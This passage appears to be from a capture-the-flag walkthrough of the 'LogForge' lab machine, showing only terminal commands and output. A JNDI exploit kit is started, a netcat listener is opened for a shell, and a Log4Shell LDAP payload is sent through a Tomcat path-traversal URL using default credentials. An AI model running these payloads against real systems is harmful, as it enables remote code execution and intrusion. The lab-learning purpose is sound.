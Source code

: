 ```bash
$ java -jar /opt/JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.3:1389 -P ~/Desktop/HTB/LogForge/shell.ser 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.10.14.3
[RMI_ADDR] >> 10.10.14.3
[LDAP_ADDR] >> 10.10.14.3
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/mocwwp
ldap://10.10.14.3:1389/mocwwp
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.3:1099/wbxxju
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/w3npyd
ldap://10.10.14.3:1389/w3npyd
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/2h1sjj
ldap://10.10.14.3:1389/2h1sjj
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/xjlci1
ldap://10.10.14.3:1389/xjlci1
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.3:1099/gj0p5q

----------------------------Server Log----------------------------
2024-08-11 13:01:31 [JETTYSERVER]>> Listening on 10.10.14.3:8180
2024-08-11 13:01:31 [RMISERVER]  >> Listening on 10.10.14.3:1099
2024-08-11 13:01:32 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

```bash
$ rlwrap -cAr nc -nlvp 9999               
listening on [any] 9999 ...
```

```bash
$ curl --path-as-is -i -s -k -X $'POST' \    -H $'Host: 10.10.11.138' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Authorization: Basic dG9tY2F0OnRvbWNhdA==' \
    --data-binary $'idle=${jndi:ldap://10.10.14.3:1389/mocwwp}' \
    $'http://10.10.11.138/kali/..;/manager/html/expire?path=/'


HTTP/1.1 200 
Date: Tue, 13 Aug 2024 05:59:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html;charset=utf-8
Vary: Accept-Encoding
Transfer-Encoding: chunked
...
```
